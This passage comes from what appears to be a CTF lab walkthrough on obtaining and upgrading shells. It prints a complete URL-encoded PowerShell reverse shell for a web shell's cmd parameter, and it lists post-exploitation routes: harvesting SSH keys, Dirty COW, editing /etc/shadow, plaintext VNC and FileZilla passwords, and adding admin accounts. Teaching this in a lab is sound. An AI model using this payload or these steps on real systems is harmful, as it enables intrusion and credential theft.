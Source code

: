 When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the <code>cmd</code> argument:</p>

<pre><code>powershell%20-c%20%22%24client%20%3D%20New-	Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-
TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-		String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22 
</code></pre>

<p>This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.</p>
<br>

> 11.1 - <em>Read the WebShells information.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

<h2>Task 12 - Next Steps</h2>
<p></p>

<strong>Ok, we have a shell. Now what? </strong>

<br>

<p>We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?<br>

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at <code>/home/<user>/.ssh</code> are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like <a href="https://tryhackme.com/r/room/introtoshells](https://dirtycow.ninja/)">Dirty C0w</a> or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.</pr>



<p>On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at <code>C:\Program Files\FileZilla Server\FileZilla Server.xml</code><br>
 or <code>C:\xampp\FileZilla Server\FileZilla Server.xml</code><br>
. These can be MD5 hashes or in plaintext, depending on the version.</p>

<p>Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.</p>
